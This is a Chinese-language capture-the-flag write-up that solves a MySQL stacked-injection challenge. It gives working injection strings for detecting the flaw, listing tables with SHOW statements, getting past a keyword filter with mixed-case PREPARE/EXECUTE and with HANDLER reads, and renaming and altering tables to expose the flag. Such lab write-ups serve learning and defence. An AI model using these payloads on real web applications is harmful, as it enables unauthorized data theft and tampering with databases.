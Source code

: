 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-19
---
```


## flag

（每一次的flag都不同）

## 思路

1. 对于这类直观的SQL注入题目，可以直接输入几组数据进行测试。输入1，会正常显示查询结果。

   接下来就判断是字符型注入还是数字型注入。

   一般数字型注入：

   ​	`select * from *** where id=num`

   - 2-1  --》 正常显示输入1时的结果
   - 1 and 1=1和1 and 1=2 两次结果不同

   字符型注入：

      `select * from *** where id ='num'`

   - 1' and '1'='1  和1' and '1'='2 结果不同
   - 1' and '1'='1' --+ 和 1' and '1'='2' --+ 结果不同

<img src="./../images/image-20201222212022041.png" alt="image-20201222212022041" style="zoom:33%;" />

2. 本题输入1' and '1'='1，显示结果和直接输入1一致。

   <img src="./../images/image-20201222213617141.png" alt="image-20201222213617141" style="zoom:33%;" />

   再输入1' and '1'='2，无任何结果显示。说明存在sql字符型注入。

   <img src="./../images/image-20201222213724343.png" alt="image-20201222213724343" style="zoom:33%;" />

   3. 确定字符型注入之后，判断列数 1' order by 1/2/3--+

      order by 3时页面显示不正常，说明只存在两列。

      另一种判断列数方法，1' union select 1,2,3(....) --+

   4. 尝试union select语句时，页面直接显示：

      <img src="./../images/image-20201222215509025.png" alt="image-20201222215509025" style="zoom:33%;" />

      说明waf将select、update、delete、drop、insert和where等关键字过滤。

   5. 考虑堆叠注入，利用;闭合前面语句的执行，再加上需要执行的语句，且以上常见的关键字都被过滤掉了

      --》可以使用`show databases/tables/columns from table`来获取数据库、数据表和列名。

   6. 获取数据库相关信息   

      `1';show databases;--+`

      获取当前数据库中的表信息

      `1';show tables;--+`

      <img src="./../images/image-20201222220208159.png" alt="image-20201222220208159" style="zoom:33%;" />

      获取表中的列信息

      `1';show columns from words;--+`

      <img src="./../images/image-20201222220640461.png" alt="image-20201222220640461" style="zoom:33%;" />
   
      `1';show columns from 1919810931114514;--+` (当数据表名为数字时，需要使用``括起来)
   
      <img src="./../images/image-20201222220806395.png" alt="image-20201222220806395" style="zoom:33%;" />
   
   7. 可以从两个的列信息中看出，words中主要是id和data两列，有可能在输入框中输入数字时，后端读取的就是该表中的内容；另一个表中有flag列，说明flag可能存在于该表中。
   
   8. 因此，要想获取flag，则有两种思路：
   
      1. 直接从flag列中读取
         1. 绕过select过滤
         2. handler语句
      2. 将表1919810931114514添加一列id，并改名成flag（让前端传数据到后端后，后端实际操作的是该表，就可以直接将表中的数据读出来）
   
   9. 难点1：直接从flag表中读数据--》select被过滤
   
      **绕过select过滤方法：**
   
      - 大小写绕过、添加/**/绕过（但此处preg_match中的正则表达式最后为/i，说明在匹配时不区分大小写，故此方法无用）
   
      - 使用预处理语句
   
        预处理的流程包含：
   
        > ```sql
        > SET @**;								# 用于设置变量名和值
        > PREPARE stmt_name FROM preparable_stmt;	# 用于预备一个语句，并赋予名称，以后可以引用该语句
        > EXECUTE stmt_name;			 			# 执行语句
        > {DEALLOCATE | DROP} PREPARE stmt_name;	# 用来释放掉预处理的语句
        > ```
   
      ​        对于本题构造的预处理语句如下：
   
      ```sql
      1';SEt @a=concat("SEl","ect flag from `1919810931114514`");PRepare hello from @a;execute hello;#
      ```
   
      说明：预处理语句中set和prepare均使用大小写混用，因为页面提示输出以下内容。
   
      ```
      [OUTPUT]: strstr($inject, "set") && strstr($inject, "prepare")
      ```
   
      ​    strstr()函数对大小写敏感，所以可以使用大写绕过。
   
   10. 直接使用handler语句
   
       mysql除可使用select查询表中的数据，也可使用handler语句，这条语句使我们能够一行一行的浏览一个表中的数据，不过handler语句并不具备select语句的所有功能。它是mysql专用的语句，并没有包含到SQL标准中。
   
       > ```sql
       > HANDLER tbl_name OPEN [ [AS] alias]
       > # 打开一张表，无返回结果，实际上声明了一个名为tb1_name的句柄。
       > HANDLER tbl_name READ index_name { = | <= | >= | < | > } (value1,value2,...)
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ index_name { FIRST | NEXT | PREV | LAST }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > HANDLER tbl_name READ { FIRST | NEXT }
       >     [ WHERE where_condition ] [LIMIT ... ]
       > # 获取句柄的第一行，通过READ NEXT依次获取其它行。最后一行执行之后再执行NEXT会返回一个空的结果。
       > HANDLER tbl_name CLOSE
       > # 关闭打开的句柄。
       > ```
   
       ```sql
       
       1';
       handler `1919810931114514` open;
       handler `1919810931114514` read first;-- +
       ```
   
       
   
   11. 难点2：“换个名”（考察对sql操作熟练程度）
   
       根据前文的分析，可以看出在输入框中输入数字1、2等之后，后端接收数字之后在words数据表中查询内容显示，而根据前面已经查询已经得出表words和表1919810931114514的列信息，因此可以尝试（换个名），将表1919810931114514的表结构改成和words一样，即增加一个id列，且将表名改成words，即可直接通过在输入框中输入1，来获取flag值。
   
       步骤：
   
       - 表words改名：rename table words to new_word;
   
       - 表1919810931114514增加id列：alter table 1919810931114514 add id int unsigned not Null auto_increment primary key;
   
       - 修改表1919810931114514的flag列为data列名：alter table 1919810931114514 change flag data varchar(100);
   
       - 表1919810931114514改名：rename table `1919810931114514` to words;
   
         此时再直接向输入框中输入1，即可获取flag的内容。
   
       ```sql
       1';rename table words to temp;alter table `1919810931114514` add id int unsigned not Null auto_increment primary key;alter table `1919810931114514` change flag data varchar(100);rename table `1919810931114514` to words;#
       ```

## 总结

- 本题考察对sql注入各种类型的熟练程度，如果对每种sql注入类型都比较了解，则可以比较快的定位到使用堆叠注入。
- 因为select、update、delete、drop、insert和where这些关键字均被过滤掉，而且采用常见的大小写绕过、注释符绕过不行，所以常用的union注入走不通。
- 使用堆叠注入，就意味着可以正常构造一些sql进行执行，查询需要的数据。show database、tables、columns from table_name，即可获取数据库名、表名和列名。
- 两种绕过select过滤方法
  - **直接**  使用预处理语句或者handler语句（mysql特有）
  - **间接**  利用题目已有的条件，改表名和表结构
- 注意  当表名、字段名为数字时，需要用**反引号**来标识